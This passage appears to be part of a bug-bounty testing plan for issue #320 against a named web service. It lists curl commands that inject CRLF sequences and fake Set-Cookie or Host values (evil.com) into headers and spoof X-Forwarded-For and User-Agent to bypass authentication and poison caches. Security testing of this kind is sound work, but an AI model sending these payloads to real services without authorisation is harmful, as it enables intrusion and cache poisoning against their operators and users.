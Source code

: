 4. **Test for Authentication Bypass**
   ```bash
   # Test for authentication bypass via IP headers
   curl -s "https://workflow.aixblock.io/api/v1/endpoint" \
     -H "X-Forwarded-For: admin" \
     -H "X-Real-IP: admin"
   
   # Test for privilege escalation
   curl -s "https://workflow.aixblock.io/api/v1/endpoint" \
     -H "X-Forwarded-For: root" \
     -H "X-Real-IP: root"
   ```

5. **Demonstrate Clear Exploitation Impact**
   - Show successful HTTP response splitting
   - Demonstrate cache poisoning
   - Prove security control bypass
   - Show authentication bypass

#### **Issue #320: HTTP Header Injection**
**Current Status**: Header injection often not exploitable
**Enhancement Strategy**:

1. **Test for HTTP Response Splitting**
   ```bash
   # Test for HTTP response splitting
   curl -s "https://workflow.aixblock.io/api/v1/endpoint" \
     -H "User-Agent: Mozilla/5.0\r\nSet-Cookie: malicious=value"
   
   # Test with different line endings
   curl -s "https://workflow.aixblock.io/api/v1/endpoint" \
     -H "User-Agent: Mozilla/5.0\nSet-Cookie: malicious=value"
   ```

2. **Test for Cache Poisoning**
   ```bash
   # Test for cache poisoning
   curl -s "https://workflow.aixblock.io/api/v1/endpoint" \
     -H "User-Agent: evil.com\r\nHost: evil.com"
   
   # Test with different cache headers
   curl -s "https://workflow.aixblock.io/api/v1/endpoint" \
     -H "User-Agent: evil.com" \
     -H "X-Original-Host: evil.com"
   ```

3. **Test for Security Control Bypass**
   ```bash
   # Test for user agent-based access control bypass
   curl -s "https://workflow.aixblock.io/api/v1/endpoint" \
     -H "User-Agent: admin"
   
   # Test for privilege escalation
   curl -s "https://workflow.aixblock.io/api/v1/endpoint" \
     -H "User-Agent: root"
   ```
